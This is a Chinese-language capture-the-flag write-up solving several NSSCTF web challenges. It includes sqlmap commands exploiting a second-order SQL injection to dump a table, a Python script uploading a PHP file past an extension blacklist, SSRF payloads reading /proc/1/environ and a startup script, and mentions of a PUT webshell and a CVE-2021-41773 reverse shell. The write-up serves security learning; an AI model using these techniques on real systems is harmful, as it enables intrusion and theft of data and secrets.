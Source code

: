 #### NSSCTF Round #1

##### basic_check

题目：https://www.nssctf.cn/problem/2199

一个页面内什么都没有，先扫一下目录和可用的请求类型。使用curl的具体命令为：

```shell
curl -X OPTIONS http://example.com -i
```

这道题支持PUT请求

> PUT请求如果URI不存在，则要求服务器根据**请求创建资源**，如果存在，服务器就接受请求内容，并修改URI资源的原始版本。

所以我们可以通过PUT请求传一个一句话木马即可拿到访问权限。

##### sql_by_sql

题目：https://www.nssctf.cn/problem/2200

参考：https://www.cnblogs.com/jackie-lee/p/16124022.html

发现可以注册用户，考虑二次注入。先注册一个amin' --+的恶意用户，再修改密码，这样admin的密码就被改成了我们的输入。在主页发现注入点，需要使用布尔盲注，尝试sqlmap自动化解决。一开始没注成功，把level提高到3成功了。POC如下：

```shell
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --level 3
// 这里的链接：/query data：id=1和cookie的内容用burp抓包就可以看到，即为sqlmap找到正确的注入点
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --tables
// 这里是确定注入点后使用--tables参数让sqlmap读取数据库的表名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" --columns
// 这里用-T指定数据表后使用--columns参数让sqlmap读取数据库的列名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" -C "flag" --dump
// 这里打印flag表flag列的内容，得到flag
```

#### NSSCTF 2nd

##### php签到

题目：https://www.nssctf.cn/problem/4280

参考：https://www.anquanke.com/post/id/253383

一道有黑名单的文件上传题，php和phtml肯定是不能直接上传的，考虑文件解析漏洞，发现上传1.php/.可以实现绕过，解析原理应该是文件名提取是最后一个/和.的中间部分，文件后缀提取的是最后一个.后面的部分，但是在操作系统中这种文件名不符合规范，所以/.在传入成功之后会被删除，上传代码为

```python
import requests

url = "http://node5.anna.nssctf.cn:28295"
file_content = "<?php phpinfo();?>'"
file = {"file": ("1.php%2f.", file_content)}
response = requests.post(url, files=file)
print(response.text)
```

之后访问1.php就可以查看phpinfo的内容，在其中找到flag。

##### MyBox

题目：https://www.nssctf.cn/problem/4299

可能是非预期解，直接用file读环境变量。

```php
?url=file:///start.sh		启动服务和设置环境变量的shell脚本，可以对靶机进行初始化，从中可以看到flag的写入位置
?url=file:///proc/1/environ
```

##### MyBox(revenge)

题目：https://www.nssctf.cn/problem/4306

参考：https://blog.csdn.net/Tauil/article/details/125946883

对MyBox的修复，一道[CVE-2021-41773](/CVE/CVE-2021-41773)的题目，首先用file协议查看app.py源代码，发现一个自定义的mybox，可以进行SSRF。这里使用[gopher](./asset/gopher.py)的攻击脚本，得到apache版本，满足CVE攻击方式，按照[脚本](./assets/MyBox.py)进行反弹shell，但是目前还没有在本地反弹成功过。

